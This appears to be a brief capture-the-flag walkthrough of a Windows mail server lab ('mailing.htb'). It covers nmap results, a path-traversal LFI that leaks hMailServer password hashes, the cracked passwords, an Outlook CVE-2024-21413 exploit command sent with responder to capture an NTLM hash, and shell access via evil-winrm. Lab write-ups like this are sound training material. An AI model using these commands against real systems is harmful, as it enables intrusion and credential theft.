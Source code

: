 
Windows machine ,
nmap: 
```
PORT    STATE SERVICE       VERSION
25/tcp  open  smtp          hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp  open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://mailing.htb
110/tcp open  pop3          hMailServer pop3d
|_pop3-capabilities: USER UIDL TOP
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp open  imap          hMailServer imapd
|_imap-capabilities: completed IDLE OK NAMESPACE QUOTA CHILDREN RIGHTS=texkA0001 ACL IMAP4 SORT CAPABILITY IMAP4rev1
445/tcp open  microsoft-ds?
465/tcp open  ssl/smtp      hMailServer smtpd
|_ssl-date: TLS randomness does not represent time
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
587/tcp open  smtp          hMailServer smtpd
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
|_ssl-date: TLS randomness does not represent time
| smtp-commands: mailing.htb, SIZE 20480000, STARTTLS, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
993/tcp open  ssl/imap      hMailServer imapd
|_ssl-date: TLS randomness does not represent time
|_imap-capabilities: completed IDLE OK NAMESPACE QUOTA CHILDREN RIGHTS=texkA0001 ACL IMAP4 SORT CAPABILITY IMAP4rev1
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
Service Info: Host: mailing.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

```

---

Enumerating The website:
--
Found a download link:
	in the parameter found this:
		`/download.php?file=instructions.pdf` ------> LFI (local file inclusion)


Exploiting the LFI:
	`/download.php?file=../../windows/system32/drivers/etc/hosts` shows reply in burp repeater. It confirms my LFI guess.

Further exploiting LFI to reveal details:
	`/download.php?file=../../../Program+Files+(x86)/hMailServer/Bin/hMailServer.INI` shows the directories , and reveals database passwords and admin passwords. 
	
	This is the hmailserver config:

```
[Directories]

ProgramFolder=C:\Program Files (x86)\hMailServer
DatabaseFolder=C:\Program Files (x86)\hMailServer\Database
DataFolder=C:\Program Files (x86)\hMailServer\Data
LogFolder=C:\Program Files (x86)\hMailServer\Logs
TempFolder=C:\Program Files (x86)\hMailServer\Temp
EventFolder=C:\Program Files (x86)\hMailServer\Events
[GUILanguages]
ValidLanguages=english,swedish
[Security]
AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7
[Database]
Type=MSSQLCE
Username=
Password=0a9f8ad8bf896b501dde74f08efd7e4c
PasswordEncryption=1
Port=0
Server=
Database=hMailServer
Internal=1
```


Crack the admin hash, Using `hash-identifier` , I found it is an MD5 hash. Crack it online.
cracked : `homenetworkingadministrator`

It has something to do with windows mailing . Microsoft `outlook` comes to mind.
Google Outlook exploits and i found this :
 `https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability?tab=readme-ov-file`

---
CVE POC exploit:

Start responder locally. 
`sudo responder -I tun0 -v`

Run the exploit:
`python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender administrator@mailing.htb --recipient maya@mailing.htb --url '\\<ip>' --subject XD` 
use the previously found admin password here.

And in your responder , we can see the NTLM hash of the user Maya.

After receiving the hash, use  hashcat with 5600 pattern to crack

`maya/m4y4ngs4ri`

use evilWinRM to get a shell

got user.

---

PRiv ESC :Root:
--
C has "important documents" folder and it has admin perm on it.

use this for root :
https://github.com/elweth-sec/CVE-2023-2255



